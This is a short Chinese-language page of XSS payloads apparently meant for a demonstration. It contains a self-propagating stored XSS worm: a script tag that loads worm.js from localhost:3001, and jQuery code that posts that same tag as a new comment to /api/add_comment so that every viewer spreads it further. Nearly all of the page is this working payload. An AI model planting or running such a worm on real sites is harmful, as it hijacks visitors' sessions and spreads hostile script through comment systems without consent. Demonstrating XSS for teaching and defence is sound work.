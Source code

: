 # xss 演示脚本 payload
下面是我们演示会使用到的 xss payload


## xss worm（蠕虫）
``` html

<script src="http://localhost:3001/worm.js"></script>
```
```js
var commentText = '<script src="http://localhost:3001/worm.js"></script>'
$.ajax({    
  type:'post',        
  url:'/api/add_comment',    
  data: {
    text: commentText,
    date: +Date.now()
  },   
}); 
alert('badyboy is cool');
```
